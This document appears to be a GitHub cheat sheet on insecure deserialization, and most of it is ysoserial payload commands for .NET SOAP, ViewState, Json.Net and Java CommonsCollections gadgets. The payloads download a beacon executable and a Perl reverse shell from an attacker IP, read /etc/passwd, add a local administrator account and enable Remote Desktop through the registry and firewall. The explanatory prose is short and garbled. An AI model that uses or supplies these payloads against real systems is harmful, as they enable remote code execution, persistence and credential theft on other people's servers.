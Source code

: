 #  Insecure deserialization Vulnerability

Any Insecure deserialization vulnerability may occur when serialized object are allowed to alter.as a result, an unauthorized remote user could be able to execute 
arbitrary command and gaining unauthorized access to in the context of applicaiton server.Serialized objects are generally sent across is base64 format used in web applications.technically Serialization refers to a process of turning into  an object into a format on the other hand, deserialization, turning back to serialized data.

# SOAP NET Deserialization
```
ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c ipconfig" -o raw
ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c hostname" -o raw
ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c certutil.exe -urlcache -split -f  http://192.168.100.199\beacon.exe C:\\Users\\Public\\beacon.txe" -o raw
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f"

ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
"
```
# Deserialization 
```

java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "wget sdfsfdoztjxibkocen698fskck0ehs8yymn.burpcollaborator.net"
java -jar ysoserial-0.0.5-all.jar CommonsCollections1 'wget http://192.168.100.199:1010/reverse-shell.pl -O /tmp/shell.pl' > perl-reverse-shell.pl.bin
java -jar ysoserial-0.0.5-all.jar CommonsCollections1 'cat /etc/passwd' > passwd.bin
```
# ViewState Deserialization 

view state is the technique used by an ASP.NET Web page to persist changes to the state of a Web Form across postbacks. By default.
technically ViewState is used to store user data on page at the time of post back of web page however ViewState does not hold the controls,it holds the values of controls.
When tthe page is accessed, the current state of the page and values that need to be retained during postback are serialized into base64-encoded strings and output in the ViewState hidden field or fields.

* Base64 **Can be defined using EnableViewStateMac and ViewStateEncryptionMode attribute set to false**
* Base64 + MAC (Message Authentication Code) **Enabled Can be defined using EnableViewStateMac attribute set to true**
* Base64 + Encrypted **Can be defined using viewStateEncryptionMode attribute set to true**
```
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c certutil.exe -urlcache -split -f  http://192.168.100.199\beacon.exe C:\\Users\\Public\\beacon.exe"
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f"

ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c netsh advfirewall firewall set rule group="remote desktop" new enable=Yes"
```
# Json Deserialization
```
ysoserial.exe -g WindowsIdentity -f Json.Net -c "ping 10.10.14.10" -o base64
ysoserial.exe -g WindowsIdentity -f Json.Net -c "cmd /c net user MeMe 123456!@ /add " -o base64
ysoserial.exe -g WindowsIdentity -f Json.Net -c "net localgroup administrators MeMe /add" -o base64
ysoserial.exe -g WindowsIdentity -f Json.Net -c "cmd /c netsh advfirewall firewall set rule group="remote desktop" new enable=Yes" -o base64
ysoserial.exe -g WindowsIdentity -f Json.Net -c "cmd /c reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f" -o base64

```
